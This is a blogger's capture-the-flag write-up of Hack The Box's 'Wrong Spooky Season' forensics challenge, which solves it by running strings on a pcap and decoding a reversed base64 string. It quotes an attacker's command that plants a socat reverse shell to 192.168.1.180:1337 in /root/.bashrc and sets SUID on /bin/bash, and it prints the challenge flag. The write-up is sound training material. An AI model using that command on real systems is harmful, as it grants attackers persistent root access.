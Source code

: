 ```yaml
---
layout: default
author: m0j0
---
```


![htb_ctf_2023](/assets/images/HTB_CTF_2023.jpg)


It's near upon me and the OUCSS team for the latest Uni CTF with Hack the Box.

I decided to go over some old write-ups from previous years and other events 
like [PicoCTF](https://play.picoctf.org/login) just to get that CTF mindset again.

It is a game of Love and Hate when playing CTF's for me but the key thing I 
have learnt over the years is not too get frustrated and just be happy that
you participated. We all are here to gain that little bit more knowledge and
these for sure give you some, albeit in a totally different format.

I have landed on [HTB's](https://app.hackthebox.com/challenges/wrong-spooky-season)
very easy Forensics challenge called **Wrong Spooky Season**.I gotta start somewhere
and very easy on HTB can be well... let's just find out by trying it. 

I'll show some methodolgy once I have cracked it.

Well I didn't think I'd get to update this so quick and as it is retired I can 
talk about it.

I didn't glance at anything for this as it was "very easy".

So I got some files to download and it turned out to be a `.pcap` file. The challenge
has a description:

```
 CHALLENGE DESCRIPTION

&quot;I told them it was too soon and in the wrong season to deploy such a website,
but they assured me that theming it properly would be enough to stop the ghosts from
haunting us. I was wrong.&quot; Now there is an internal breach in the `Spooky Network`
and you need to find out what happened. Analyze the the network traffic and find how
the scary ghosts got in and what they did.
```

Networking then and a website being deployed. I got stuck in. 
As I was unzipping the file with the password HTB supply I thought about
opening Wireshark a great tool for this that we all must know.


But... First I ran the simple but effective sometimes `strings` command.
Usually I run `strings -a whatever.pcap` for some low hanging fruit or juicy 
info to lead me on my way and `grep less` to run through the stdout.

I forgot the `less` command and at the end of the outputted strings a command:

```bash
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo
"==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null &&
chmod +s /bin/bash
```
Looks familair to  `base64` encoded attempt at a shell on the target so I try the 
string:

```bash
m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | base64 -d                                                       [13:40:17]
base64: invalid input
FAIL: 1

m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | base32 -d                                                       [13:41:18]
base32: invalid input
FAIL: 1
```

As you can see I ran `base32` but then I realised why it had failed.  I was too
fast. If I flip the string what will it do?

So to flip for speed I used an [online site](https://www.textreverse.com/) but this 
could be done with python which I will do.

It gave me an output which I fed to the terminal:

```
m0j0@r1s1n: ~/HTB/challenges/forensics/wrong_spooky_season
$ echo -n "SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==" | base64 -d                                                       [13:42:14]
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

Boom a flag!! That was very easy as rated and fun to brush off the cobwebs (:

![htb_ctf_2023](/assets/images/cert.jpg)

